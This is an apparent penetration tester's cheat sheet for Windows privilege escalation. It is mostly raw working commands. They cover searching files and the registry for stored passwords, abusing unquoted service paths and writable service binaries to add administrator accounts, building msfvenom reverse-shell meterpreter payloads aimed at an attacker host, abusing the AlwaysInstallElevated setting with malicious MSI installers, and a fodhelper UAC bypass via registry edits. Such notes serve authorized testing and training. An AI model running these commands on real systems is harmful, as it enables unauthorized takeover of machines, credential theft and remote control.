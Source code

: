 	    dir /s/b *.xml
	    dir /s/b *password*
	    dir /s/b *passwd*
	    dir /s/b *.conf*
	    dir /s/b *.log
	    dir /s/b *.dat
	    dir /s/b *.ini
	    dir /s/b *.bat
	    dir /s/b *.txt 
	    findstr /si password *.txt
	    reg query HKLM /f password /t REG_SZ /s
	    reg query HKCU /f password /t REG_SZ /s
	    LOOK AROUND
		dir /s C:\Users
		Check web dir
	    Check LFI Interesting Files.txt
	    **check Program Files for programs with exploits
	    **check user folders--downloads, documents, etc. for interesting files, programs w/ exploits, etc.
	Techniques:
	    ****AccessCHK look for vulnerable services we can exploit, like in  https://sohvaxus.github.io/content/winxp-sp1-privesc.html
	    UAC Bypass w/ MSBuild or CMSTP:  https://0xdf.gitlab.io/2019/08/10/htb-arkham.html
	    Unquoted Service Paths:
		search for services:  wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
		check dir permissions: icacls "C:\Program Files\Program"
		create reverse shell and replace:  msfvenom -p windows/meterpreter/reverse_tcp LHOST=[LHOST IP] LPORT=443 -f exe -o Some.exe
		restart original service:  sc stop [service name], then sc start [service name]
	    Modifying the binary service path:
		accesschk.exe -uwcqv "Authenticated Users" * /accepteula
		sc config [service name] binpath= "malicious executable path"
		sc stop [service name], sc start [service name]
		Or:  sc config [service name] binpath= "net user admin password /add"
		sc stop [service name], sc start [service name]
		sc config [service name] binpath= "net localgroup Administrators admin /add"
		sc stop [service name], sc start [service name]
	    AlwaysInstallElevated setting:
		if both are 1: reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
			reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
		msfvenom -p windows/adduser USER=admin PASS=password -f msi -o filename.msi
		Or:  msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[LHOST IP] LPORT=443 -f msi -o filename.msi
		msiexec /quiet /qn /i C:\Users\filename.msi
	    World writable files in PF dir:  accesschk.exe -uws "Everyone" "C:\Program Files"  \\  Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
	    From PS:   driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
		Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
	    See if 1 (like suid):  reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer  \\  reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
	Windows Case Studies:
	    whoami /groups
	    even as administrator, we have to elevate access:  powershell.exe Start-Process cmd.exe -Verb runAs
	    ex. fodhelper.exe UAC bypass
		check application manifest w/ sysinternals:  sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
		REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
		REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
		REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
	    ex. Serviio Insecure File Permissions
		Get-WmiObject win32_service | Select-Object Name, State, PathName| Where-Object {$_.State -like 'Running'}
